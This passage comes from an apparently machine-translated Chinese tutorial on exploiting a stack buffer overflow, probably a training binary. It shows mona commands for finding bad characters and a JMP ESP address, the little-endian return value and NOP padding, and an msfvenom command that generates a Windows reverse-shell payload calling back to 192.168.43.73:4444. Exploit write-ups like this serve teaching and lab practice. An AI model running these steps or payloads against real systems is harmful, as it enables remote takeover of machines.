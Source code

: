在这之后！我们启动它并在 MONA 中运行比较，我们发现地址现在未被修改。嘣，我们终于有了坏蛋

未修改就得到错误，试错之后，序列是这样的。

绿框表示正确的坏字符，让我们再次使用 mona 命令找到跳转点:

```
!mona jmp -r esp -cpb “\x00\x11\x40\x5f\xb8\xee”
```

![](img/b93d4031b72735fcfa38ebf9f3382c4f.png)

上述结果中的任何地址都可能被用作漏洞利用中的 retn 值。小端=反。还要添加填充以允许有效载荷打开包装。

注意地址 **62501203**

> ***注意:-如果* 62501203 *没有为反向外壳创建完美的 paylaod，则更改地址，直到获得反向外壳***

用新地址更新我们的 retn 变量，并且必须向后写(因为系统是 little-endian=Reverse)。

```
retn = "\x03\x12\x50\x62"
padding = "\x90" * 16
```

![](img/ae7246147882ecc1f229853c86b479a8.png)

现在使用 msfvenom 生成反向 shell 有效负载。

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.73 LPORT=4444 EXITFUNC=thread -b “\x00\x11\x40\x5f\xb8\xee” -f c
```
